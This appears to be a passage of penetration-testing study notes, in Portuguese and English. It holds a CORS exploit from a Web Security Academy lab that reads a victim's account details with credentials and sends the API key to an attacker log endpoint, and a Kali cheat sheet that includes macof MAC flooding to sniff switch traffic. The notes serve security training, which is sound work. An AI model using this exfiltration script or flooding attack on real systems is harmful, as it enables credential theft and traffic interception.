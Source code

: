 ```
   var url = "https://0abe00ef04a17ad3c0102ceb00270080.web-security-academy.net"

   xhrequest.open('GET', url + "/accountDetails", true);
   xhrequest.withCredentials = true;
   xhrequest.send(null)

   xhrequest.onreadystatechange = function() {
       if (xhrequest.readyState == XMLHttpRequest.DONE){
           fetch("/log?key=" + xhrequest.responseText)
       }
   }
</script>
</body>
</html>
```

# Kali-Linux

https://github.com/wwong99/pentest-notes/blob/master/oscp_resources/OSCP-Survival-Guide.md#kali-linux
```
$ macof -i eth0     => O comando macof, se refere a overflow de endereços mac. É preciso informar em que interface ( -i) esse ataque será realizado. No nosso caso, temos a eth0, a placa de rede que está conectada ao switch no programa de emulação. Ao dar enter, ele começará a mandar uma infinidade de endereços para o switch, a fim de lotar a memória e fazer com que ele trabalhe como um switch, podendo assim pegarmos informações de pacotes com o wireshark
$ arp -a            => Ver quais endereços MAC estão salvos para serem usados pelo ARP
$ `netstat -lntp`       => Show active internet connections
$ netstat -antp |grep apache                    => Verify a service is running and listening
$ md5sum <file>     => Verifica a integridade um arquivo transferido pela rede (ex: via Netcat TCP/UDP), gera um códido hash, se esse código hash no remetente e no destinatário forem iguais, então a transferência deu certo
$ netdiscover -i eth0
```


